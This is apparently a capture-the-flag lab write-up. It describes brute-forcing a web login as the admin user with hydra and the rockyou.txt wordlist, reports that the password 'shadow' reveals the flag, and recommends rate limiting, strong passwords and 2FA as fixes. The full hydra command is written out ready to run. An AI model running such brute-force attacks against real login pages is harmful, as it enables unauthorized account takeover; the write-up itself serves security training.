

a common attack is to try to bruteforce the login, if a password is weak.
we can try with the user `admin` which is very common, and any password data set, like rockyou.txt
`hydra -l admin -P rockyou.txt localhost http-get-form "/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:WrongAnswer.gif"`

trying to login with admin and shadow gives us the flag.

# use case

logging as the admin can gives us a lot of power over admin panels and moderations tools on the site, including impersonations and pishing.

# fix

the best way to fix this is to add a rate limiter to the backend, so that the client is blocked after some failed attempts.
also using a stronger, unique password, and 2FA are useful.
